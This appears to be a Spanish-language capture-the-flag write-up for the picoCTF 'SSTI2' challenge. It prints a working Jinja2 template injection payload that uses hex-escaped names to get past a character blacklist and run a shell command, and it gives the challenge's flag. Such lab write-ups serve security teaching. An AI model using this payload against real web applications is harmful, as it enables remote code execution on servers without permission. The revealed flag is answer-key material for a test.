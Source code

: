 # SSTI2

## Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:59035/)!

## Hints

* Server Side Template Injection
* Why is blacklisting characters a bad idea to sanitize input?

## Solución

Primero iniciamos nuestra instancia y entramos al link proporcionado, una vez dentro buscamos `pyjail ssti` en nuestro navegador y seleccionamos el primer sitio web, y buscamos el siguiente comando y lo pegamos en el link que se nos proporciono de la instancia y con esto nos dara nuestra respectiva flag:
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

### Respuesta: picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}

## Referencias:
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/